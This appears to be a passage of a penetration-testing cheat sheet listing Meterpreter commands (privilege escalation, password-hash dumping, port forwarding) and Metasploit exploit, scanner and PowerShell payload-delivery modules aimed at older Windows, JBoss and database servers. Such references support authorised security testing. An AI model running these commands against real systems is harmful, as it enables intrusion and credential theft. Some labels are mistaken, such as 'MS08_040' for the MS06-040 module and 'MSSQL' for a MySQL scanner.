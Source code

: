 			getsystem
			Meterpreter attempts priviledge escalation the target

			hashdump
			Meterpreter attempts to dump the hashes on the target

			portfwd add –l 3389 –p 3389 –r target
			Meterpreter create port forward to target machine

			portfwd delete –l 3389 –p 3389 –r target
			Meterpreter delete port forward


	**Common Metasploit Modules**
		
		Top metasploit modules.
		Remote Windows Metasploit Modules (exploits)

			use exploit/windows/smb/ms08_067_netapi
			MS08_067 Windows 2k, XP, 2003 Remote Exploit

			use exploit/windows/dcerpc/ms06_040_netapi
			MS08_040 Windows NT, 2k, XP, 2003 Remote Exploit

			use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
	
			MS09_050 Windows Vista SP1/SP2 and Server 2008 (x86) Remote Exploit
			Local Windows Metasploit Modules (exploits)

			use exploit/windows/local/bypassuac
			Bypass UAC on Windows 7 + Set target + arch, x86/64

		Auxilary Metasploit Modules

			use auxiliary/scanner/http/dir_scanner
			Metasploit HTTP directory scanner

			use auxiliary/scanner/http/jboss_vulnscan
			Metasploit JBOSS vulnerability scanner

			use auxiliary/scanner/mssql/mssql_login
			Metasploit MSSQL Credential Scanner

			use auxiliary/scanner/mysql/mysql_version
			Metasploit MSSQL Version Scanner

			use auxiliary/scanner/oracle/oracle_login
			Metasploit Oracle Login Module

		Metasploit Powershell Modules
	
			use exploit/multi/script/web_delivery
			Metasploit powershell payload delivery module

			post/windows/manage/powershell/exec_powershell
			Metasploit upload and run powershell script through a session

			use exploit/multi/http/jboss_maindeployer
			Metasploit JBOSS deploy

			use exploit/windows/mssql/mssql_payload
			Metasploit MSSQL payload

